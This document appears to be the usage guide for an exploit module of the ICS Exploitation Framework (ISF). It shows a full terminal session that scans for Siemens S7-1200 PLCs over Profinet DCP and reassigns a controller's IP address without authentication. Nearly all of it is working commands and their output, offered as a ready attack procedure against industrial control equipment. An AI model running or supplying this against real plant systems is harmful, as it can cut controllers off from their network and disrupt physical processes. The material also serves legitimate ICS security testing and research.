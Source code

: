 # Profinet set ip

# Use Profinet set ip module
    root@kali:~/Desktop/temp/isf# python isf.py
    
      _____ _____  _____ _____ _____  _      ____ _____ _______
     |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
       | || |    | (___| (___ | |__) | |   | |  | || |    | |
       | || |     \___ \\___ \|  ___/| |   | |  | || |    | |
      _| || |____ ____) |___) | |    | |___| |__| || |_   | |
     |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
    
    
                    ICS Exploitation Framework
    
    Note     : ICSSPOLIT is fork from routersploit at
               https://github.com/reverse-shell/routersploit
    Dev Team : wenzhe zhu(dark-lbp)
    Version  : 0.1.0
    
    Exploits: 5 Scanners: 3 Creds: 13
    
    ICS Exploits:
        PLC: 5          ICS Switch: 0
        Software: 0
    
    isf >
    isf > search profinet
    exploits/plcs/siemens/profinet_set_ip
    scanners/profinet_dcp_scan
    isf > exploits/plcs/siemens/profinet_set_ip
    isf (profinet device ip setup) >

    
# Set options
    isf (profinet device ip setup) > show options
    Target options:
    
       Name       Current settings      Description
       ----       ----------------      -----------
       target     40:6c:8f:ff:ff:ff     Target mac address, e.g. 40:6c:8f:ff:ff:ff
    
    
    Module options:
    
       Name               Current settings     Description
       ----               ----------------     -----------
       timeout            3                    Timeout for response
       target_ip          192.168.1.100        IP Address to set
       nic                eth0                 Interface Name e.g eth0, en0
       target_gateway     0.0.0.0              Gateway to set
       target_netmask     255.255.255.0        Network mask to set
       verbose            0                    Scapy verbose level, 0 to 2
    
    # Because profient dcp is a ethernet protocol, we need setup which interface to send and recive profinet dpc packet.
    # Use set nic eth0 to define which interface we want to send and recive profinet dpc packet.
    isf (profinet device ip setup) > set nic eth0
    [+] {'nic': 'eth0'}
    
    # Setup target mac address
    isf (profinet device ip setup) > set target 00:1c:06:1d:ff:ff
    [+] {'target': '00:1c:06:1d:ff:ff'}
    
    # If you didn't know target mac address this time, you can use scan command to discover profinet devices.
    isf (profinet device ip setup) > scan
    Device Name    Device Type    MAC Address        IP Address      Netmask        GateWay
    -------------  -------------  -----------------  --------------  -------------  ---------
    plcxb1d0ed     S7-1200        00:1c:06:1d:ff:ff  192.168.1.100  255.255.255.0  0.0.0.0
    
    # Setup ip address, netmask and gateway.
    isf (profinet device ip setup) > set target_ip 192.168.1.110
    [+] {'target_ip': '192.168.1.110'}
    isf (profinet device ip setup) > set target_netmask 255.255.255.0
    [+] {'target_netmask': '255.255.255.0'}
    # Set gateway to 0.0.0.0 mean target didn't have a gateway.
    isf (profinet device ip setup) > set target_gateway 0.0.0.0
    [+] {'target_gateway': '0.0.0.0'}

# Run module
    isf (profinet device ip setup) > run
    # run command will send a profinet dcp packet to check target current ip setting. 
    Device Name    Device Type    MAC Address        IP Address      Netmask        GateWay
    -------------  -------------  -----------------  --------------  -------------  ---------
    plcxb1d0ed     S7-1200        00:1c:06:1d:ff:ff  192.168.1.100  255.255.255.0  0.0.0.0
    
    
    [*] Please make sure target device info is correct.
    [*] Do you want setup target with
     ip address: 192.168.1.110
     network mask: 255.255.255.0
     gateway:0.0.0.0
    
    Y/y to confirm, other to cancel.
    :y
    Device Name    Device Type    MAC Address        IP Address      Netmask        GateWay
    -------------  -------------  -----------------  --------------  -------------  ---------
    plcxb1d0ed     S7-1200        00:1c:06:1d:ff:ff  192.168.1.110  255.255.255.0  0.0.0.0
    
    
    [+] Setup target ip succeed
    isf (profinet device ip setup) >
